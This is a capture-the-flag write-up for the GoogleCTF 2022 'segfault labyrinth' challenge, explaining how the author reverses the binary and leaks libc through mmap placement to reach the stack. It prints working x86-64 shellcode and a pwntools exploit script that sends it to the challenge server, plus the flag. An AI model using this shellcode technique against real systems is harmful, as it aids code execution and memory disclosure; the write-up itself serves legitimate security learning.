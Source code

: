 # GoogleCTF 2022 - segfault labyrinth

Created time: July 4, 2022 8:00 PM
Status: Work In Progress
events: GoogleCTF2022
types: misc, pwn

# Challenge Description

```
Be careful! One wrong turn and the whole thing comes crashing down

nc segfault-labyrinth.2022.ctfcompetition.com 1337

Solves: (189 pt/ 56 solves)
```

The challenge code can be found here: [https://github.com/google/google-ctf/tree/master/2022/misc-segfault-labyrinth](https://github.com/google/google-ctf/tree/master/2022/misc-segfault-labyrinth)

# Inspection

I first put the challenge binary into ghidra and start reversing. We can see that the challenge binary reads the size of the input, read the shellcode, and then execute the shellcode.

![Reading shellcode](/img/GoogleCTF2022-segfault-labyrinth-read.png)

We also know that there are some seccomp rule implemented, so we dump it through `seccomp-tools`

![Seccomp tools output](/img/GoogleCTF2022-segfault-labyrinth-seccomp.png)

That’s quite a specific list of syscall allowed. We know that the flag is read into the memory already, so we just need to find the location and then write it. From the code below we know that there is still a reference to the flag string on the stack, since the flag pointer is never overwritten again.

![Reversing to find flag on stack](/img/GoogleCTF2022-segfault-labyrinth-rev-flag.png)

# Checking environment

To start the exploit, I decide to checkout what state we have to work with when the code start executing our code. By sending “\xcc” as our shellcode, we can trap the process at the start of the shellcode. 

![Shellcode execute environment](/img/GoogleCTF2022-segfault-labyrinth-env.png)

It seems like there wasn’t much to work with, only rdi is left, which doesn’t seems to point to anything useful. I start searching for ways to obtain a stack address, since then we can use a offset to the flag point and read the flag. Reading the blog post [https://nickgregory.me/post/2019/04/06/pivoting-around-memory/](https://nickgregory.me/post/2019/04/06/pivoting-around-memory/), I know that if I leaked the libc base address, I can leverage the environment pointer to get to the stack. After that I’ll just need to find the offset from the environment to the flag to write it out.

# Syscall - mmap

So now, how do I get a libc address without any reference? Maybe somehow the syscall allowed can provide some useful information. From doing heap exploitation before, I know there is a common trick to leak libc address by mallocing a large chunk, which make libc use mmap to allocate the chunk ([https://github.com/bennofs/docs/blob/master/hxp-2017/impossible.md](https://github.com/bennofs/docs/blob/master/hxp-2017/impossible.md)). If we call mmap with a null pointer as address, the kernel will decide where the new chunk should be placed at. Apparently the kernel tend to allocate chunks next to each other, though this is not guaranteed in the manual. From my understanding, since libc is mmaped by the loader, if we mmaped another large chunk again, the kernel will put it next to libc, so the offset to libc is fixed.

![mmap manual](/img/GoogleCTF2022-segfault-labyrinth-mmap.png)

When testing this behavior, I notice that it worked if the chunk is large enough that it doesn’t fit into the gap between loader and libc. So I mmaped a 0x100000 size chuck to get libc, then used that to get libc environment point. After that it’s smooth sailing to print out the flag. The final shellcode is shown below. See appendix for the full exploit code.

```markdown
// mmap large chunk to get libc
mov rax, 9
mov rdi, 0
mov rsi, 0x100000
mov rdx, 0x7
mov r10, 0x22
mov r8,  -1
mov r9,  0
syscall

//get stack from libc environ
add rax, 0x2ef600
mov rsp, [rax]

//print flag
mov rax, 1
mov rdi, 1
mov rdx, 0x100
mov rsi, [rsp-0x240]
syscall
```

P.S. While I am writing this write up, I notice that this wasn’t 100% consistent in the remote environment. It worked around 1/2 of the time, so just run it a few times if it doesn’t work.

![executing the exploit](/img/GoogleCTF2022-segfault-labyrinth-exec.png)

Flag: `CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}` 

# Appendix - exp.py

{% capture exp_py %}
```python
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
gdb_script = '''
'''

file_name = './challenge'
p = process(file_name)
elf = ELF(file_name)
context.binary = file_name
#libc = ELF('')
nc_str = 'nc segfault-labyrinth.2022.ctfcompetition.com 1337'
HOST = nc_str.split(' ')[1]
PORT = nc_str.split(' ')[2]
p = remote(HOST, PORT)

#gdb.attach(p, gdb_script)

shellcode = '''
// mmap large chunk to get libc
mov rax, 9
mov rdi, 0
mov rsi, 0x100000
mov rdx, 0x7
mov r10, 0x22
mov r8,  -1
mov r9,  0
syscall

//get stack from libc environ
add rax, 0x2ef600
mov rbx, [rax]

//print flag
mov rax, 1
mov rdi, 1
mov rdx, 0x100
mov rsi, [rbx-0x240]
syscall
'''

shellcode = asm(shellcode)
p.send(p64(len(shellcode)))
p.send(shellcode)

p.interactive()
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="exp_py"
    button-text="Show exp.py" toggle-text=exp_py%}


